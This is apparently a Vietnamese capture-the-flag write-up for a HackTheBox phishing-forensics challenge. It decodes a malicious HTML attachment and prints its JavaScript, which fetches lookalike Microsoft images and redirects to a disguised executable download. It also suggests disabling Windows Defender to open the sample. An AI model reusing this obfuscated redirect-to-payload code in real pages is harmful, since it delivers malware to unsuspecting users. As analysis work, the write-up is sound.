

# Description

Spooky Phishing
A few citizens of the Spooky Country have been victims of a targeted phishing campaign. Inspired by the Halloween spirit, none of them was able to detect attackers trap. Can you analyze the malicious attachment and find the URL for the next attack stage?

# Source

- [Source](./index.html)
- [Zip](./forensics_spooky_phishing.zip)

# Solve
- File index.html bị Window Defender phát hiện có mã độc, nếu tự tin thì tắt WD đi và mở nó lên :v (Còn nếu muốn toàn thì hãy dùng máy ảo để mở lên 😁).
- Đọc nội dung file `index.html` sẽ thấy có một đoạn mã javascript bị mã hóa base64. Giải mã đoạn mã sẽ thu được code thuần túy:
```javascript
$(_ => {

    const n = atob($('.il').val());
    const nn = decodeHex(n);

    document.body.style.backgroundImage = 'url(http://microsoftcloudservices.com/images/244057624-a653c399-1e64-444e-8792-e3dfdc204dfd.png)';
    $('#banner').attr('src', 'http://microsoftcloudservices.com/images/244057679-f971f2e6-af4a-40f7-9225-7d4e929ed3ae.png');

    setTimeout(() => {
        const a = atob($('.li').val());
        const aa = decodeHex(a);

        window.location.href = aa + nn;
    }, 3500);
});

function decodeHex(hexx) {
    var hex = hexx.toString();
    var str = '';
    for (var i = 0; i < hex.length; i += 2)
        str += String.fromCharCode(parseInt(hex.substr(i, 2), 16));
    return str;
}
```
- Nói qua về đoạn code trên thì nó sẽ lấy value của hai thẻ có class là `li` và `il`, value được đưa vào hàm `decodeHex` sau đó nối lại với nhau và được duyệt bằng `window.location.href`.
- Lấy giá trị của hai thẻ `li` và `il` (cũng được mã hóa bằng base64) kết hợp với nhau, sau đó giải mã sẽ thu được một chuỗi hex: `68747470733a2f2f77696e646f77736c697665757064617465722e6874622f4854427b737030306b795f7068317368316e675f773174685f737030306b795f7370723334647368333374737d2f6170702e786c73782e657865`
- Đưa vào hàm `decodeHex` và xem kết quả thì thu được một url có chứa Flag: 

- `https://windowsliveupdater.htb/HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}/app.xlsx.exe`
`🚩Flag: HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}`